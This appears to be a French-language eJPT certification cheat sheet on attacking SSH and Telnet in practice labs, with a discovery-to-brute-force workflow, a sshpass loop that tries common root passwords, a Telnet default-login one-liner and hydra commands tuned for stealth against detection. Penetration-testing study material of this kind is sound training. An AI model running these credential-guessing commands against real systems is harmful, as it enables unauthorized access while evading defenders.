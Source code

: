 ## 💡 5. Conseils et astuces eJPT

### Workflow SSH/Telnet recommandé
1. **Découverte** : `nmap -p22,23 -sV target`
2. **Banner analysis** : Identifier version/OS
3. **Test credentials courants** : root:root, admin:admin
4. **Brute force prudent** : Hydra avec limitations
5. **Post-compromise** : Énumération locale

### Points critiques SSH/Telnet eJPT
- **SSH root login** souvent autorisé dans labs
- **Credentials faibles** très fréquents (root:password)
- **Telnet = plaintext** → Facile à exploiter
- **Port SSH non-standard** (2222, 2200) à vérifier
- **Clés SSH** parfois exposées dans web/FTP

### Erreurs courantes à éviter
- **Trop de threads** SSH → Détection/blocage
- **Brute force sans test manual** → Perte de temps
- **Ignorer versions SSH anciennes** → Vulnérabilités
- **Ne pas tester Telnet** si port 23 ouvert
- **Oublier ports SSH alternatifs**

### One-liners SSH/Telnet
```bash
# Test SSH credentials courants
for pass in password root admin 123456; do sshpass -p $pass ssh -o ConnectTimeout=5 root@target && break; done

# Scan SSH/Telnet multi-ports
nmap -p22,23,2222,2200 -sV target

# Test Telnet rapide
echo -e "admin\nadmin\n" | timeout 10 telnet target
```

### Timing et stealth SSH
```bash
# Mode furtif SSH (éviter détection)
hydra -l root -P passwords.txt -t 1 -w 5 ssh://target

# Mode normal
hydra -l root -P passwords.txt -t 4 ssh://target

# Mode rapide (attention logs)
hydra -l root -P passwords.txt -t 8 ssh://target
```

**🎯 Conseil final eJPT :** SSH/Telnet dans l'eJPT suivent souvent ce pattern : découverte → test credentials courants (root:password, admin:admin) → brute force si échec. Telnet = jackpot car pas de chiffrement. SSH root souvent autorisé dans les labs contrairement à la vraie vie !